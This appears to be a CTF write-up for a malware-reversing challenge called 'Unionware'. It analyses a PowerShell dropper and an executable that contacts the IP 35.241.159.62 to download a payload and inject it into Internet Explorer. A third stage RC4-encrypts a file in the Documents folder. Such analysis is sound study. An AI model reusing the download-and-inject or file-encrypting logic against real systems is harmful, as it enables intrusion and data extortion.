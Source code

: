 # **Unionware**

### **Description:**

![image0](images/image0.png)

### **Part 1: powershell file analysis**

This is an obfuscate form of powershell, used `spit()` . Write scripts to get content clearly. Then we will have the file  `lnELKNdoie .exe`

### **Part 2: `lnELKNdoie.exe` file analysis**

At the beginning of the file there is `checkVM` function and some other checks, I choose next directly through these checks.

![image1](images\\image1.png)

Enter `conn`  function, because the file used `xor obfuscate`, I debug to know function to be called, explain to `conn`:

```c
// 
v6 = ((int (__cdecl *)(int, int *, int, int))ws2_32_WSAStartup(514, &v40, a3, a4);
// get info of this addr 35.241.159.62 --> 62.159.241.35.bc.googleusercontent.com
((int (__stdcall *)(__m128i *, int, _DWORD *, void (**)(void)))ws2_32_getaddrinfo)(&v38, dword_40A3F8, v41, &v39);
// socket
    s = (const CHAR *)((int (__stdcall *)(_DWORD, _DWORD, _DWORD, __m128i *))ws2_32_socket)(*((_DWORD *)v39 + 1),*((_DWORD *)v39 + 2),*((_DWORD *)v39 + 3),v48);
// conn addr above
((int (__stdcall *)(const CHAR *, _DWORD, _DWORD))ws2_32_connect)(s,*((_DWORD *)v35 + 6),*((_DWORD *)v35 + 4));
// send: "KADMKLAFD:LSM$OPM@FLK:FM!N$@N$"
((int (__stdcall *)(const CHAR *, __m128i *, int, _DWORD))ws2_32_send)(s,&v28,&v28.m128i_i8[strlen(v28.m128i_i8) + 1] - &v28.m128i_i8[1],0)
 // recv
((int (__stdcall *)(const CHAR *, _BYTE *, int, _DWORD))ws2_32_recv)(s, buf, 1024, 0);
// shutdown
(int (__stdcall *)(const CHAR *, int))ws2_32_shutdown)(s, 1);
```

receive data until  `size == 0x6B200`:

![image2](images\\image2.png)

The downloaded file will be Injected into IE, this Inject technique is quite similar [link](https://www.ired.team/offensive-security/code-injection-process-injection/injecting-to-remote-process-via-thread-hijacking)

### **Part 3: phân tích file `out.exe`**

The file will look in the folder `Document` file plaintext:

```c
  v14 = SHGetFolderPathA(0, 5, 0, 0, pszPath);
  j_strncat(pszPath, "\\j3w3ls", 8u);           // //Documents//j2w3ls
```

process `encrypt data`:

![image3](images\\image3.png)

Enter `encrypt`  function, we will see many functions that define the functions in the `cryptopp` library, and then create `key 128bytes` by `random` function with seed at the time of `encrypt` :

![image4](images\\image4.png)

Struct file:

- The first 128 bytes are the key RC4
- The other is the ciphert text

Writing a simple script to recover the original file is going to have the `flag`.

### Reference

[RC4.c](https://gist.github.com/rverton/a44fc8ca67ab9ec32089)
